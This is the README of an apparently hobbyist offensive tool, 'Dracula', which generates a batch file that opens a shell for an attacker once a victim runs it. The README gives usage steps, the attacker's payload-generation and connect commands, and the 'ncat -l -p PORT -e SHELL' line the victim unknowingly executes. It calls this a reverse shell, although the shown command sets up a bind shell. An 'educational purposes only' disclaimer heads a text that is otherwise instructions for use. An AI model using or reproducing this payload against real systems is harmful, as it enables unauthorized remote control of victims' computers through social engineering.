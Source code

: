 **THIS IS ONLY FOR EDUCATIONAL PURPOSES, DO NOT USE THIS FOR ANY ILLEGAL ACTIVITIES**

```
        _____                       _       
        |  __ \                     | |      
        | |  | |_ __ __ _  ___ _   _| | __ _ 
        | |  | | '__/ _` |/ __| | | | |/ _` |
        | |__| | | | (_| | (__| |_| | | (_| |
        |_____/|_|  \__,_|\___|\__,_|_|\__,_|

```

This is a project i whipped up in like a single day lol, work in progress

# How it Works
uses ncat command to give reverse shell access to the attacker once the client opens the batch file.

# How to Use
1. Install nmap (on linux systems)

        sudo apt install nmap 

2. Run the dracula.py file and enter the required info
3. A batch file is generated 

### **Attacker's Side**
Generate payload:

```
Dracula >> -p <TARGET_PORT> -s <SHELL_TYPE> -o <OUTPUT_FILE_NAME>
```

Command to connect to the target machine:

```
Dracula >> -l -i <TARGET_IP> -p <TARGET_PORT>
```
replace the TARGET_IP with ip addr of client and TARGET_PORT with port used in the attack

**NOTE: the port used in above command must be same as the the one used in payload.**

### **Client's Side**
Once the client opens the batch file, following command is executed
```
ncat -l -p PORT -e SHELL 
```
